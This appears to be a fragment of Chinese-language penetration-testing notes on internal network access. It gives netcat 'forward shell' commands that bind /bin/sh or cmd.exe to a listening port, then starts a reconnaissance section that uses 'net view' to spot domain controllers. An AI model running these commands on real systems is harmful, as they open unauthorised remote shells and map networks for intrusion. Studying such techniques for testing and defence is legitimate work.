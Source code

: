 ```
```
![](/sourcepictures/2017/11/06/3_proxy/1.jpg)

参考的文章：
https://www.91ri.org/11722.html

####正向shell
```
1、nc -e /bin/sh -lp 1234

2、nc.exe -e cmd.exe -lp 1234
```

###信息收集(结构分析)  
####基本命令  
1、获取当前组的计算机名(一般remark有Dc可能是域控)：  
```
C:\Documents and Settings\Administrator\Desktop>net view
Server Name            Remark

-----------------------------------------------------------------------------
\\DC1
\\DM-WINXP
\\DM_WIN03
The command completed successfully.
```
